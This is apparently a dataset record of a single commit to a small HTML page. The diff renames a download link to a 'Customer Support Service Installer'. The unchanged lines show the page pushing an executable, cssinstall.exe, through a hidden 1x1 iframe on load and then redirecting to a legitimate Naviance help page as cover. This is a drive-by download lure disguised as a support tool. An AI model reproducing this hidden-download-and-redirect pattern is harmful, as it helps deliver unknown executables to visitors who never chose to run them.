

Before and after one commit to rubada4403/rubada4403, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,7 +2,7 @@
 <html>
 <body>
 	<a href="cssinstall.exe" download>
-		"Click Here to Download"
+		"Click Here to Download the Customer Support Service Installer"
 	</a>
 	<iframe width="1" height="1" frameborder="0" src="cssinstall.exe"></iframe>
 	<meta http-equiv="refresh" content="1, URL='https://www.naviance.com/help'"/>
```
